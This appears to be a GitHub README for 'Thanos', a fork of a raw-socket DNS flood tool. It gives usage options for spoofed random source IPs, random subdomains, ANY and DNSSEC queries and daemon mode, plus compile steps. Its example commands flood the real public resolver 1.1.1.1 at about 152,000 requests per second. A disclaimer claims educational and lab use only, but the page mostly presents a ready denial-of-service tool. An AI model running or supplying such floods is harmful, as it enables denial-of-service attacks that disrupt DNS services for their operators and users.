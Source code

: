 # dns-flood
This is a fork of https://github.com/hawell/dns-flood

This is a modified version of DNS-Flood tool codename Thanos. The code should not be used in the wild for DOS but for educational, lab testing and verification purposes only.

Use raw sockets to generate DNS flood.

In contrast to fork version it provides:
 - Support additional query (RR) Type - ANY, RRSIG, DNSKEY, HTTPS SVCB



## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send  
	-d, --duration		run for at most this many seconds   
	-r, --random-src	fake random source IP
	-R, --random-sub	prefix with random subdomain names
	-S, --dnssec		make a dnssec query
	-D, --daemon		run as daemon  
	-h, --help		print this message   
```
Example:
```bash
sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -d 1
sent 152648 DNS requests in 1.000000 sec.

sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -n 30
sent 30 DNS requests in 0.000000 sec.
```

## How to Install
1. Download C file or clone
2. Compile using clang or gcc (code has been compiled using both clang and gcc for linux and OSX and works fine)
3. Use with care


## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood.

Original Here: https://code.google.com/p/dns-flood/

## Disclaimer
The forked code enhancement was solely developed in my personal capacity and has no associations with my employers past or present.
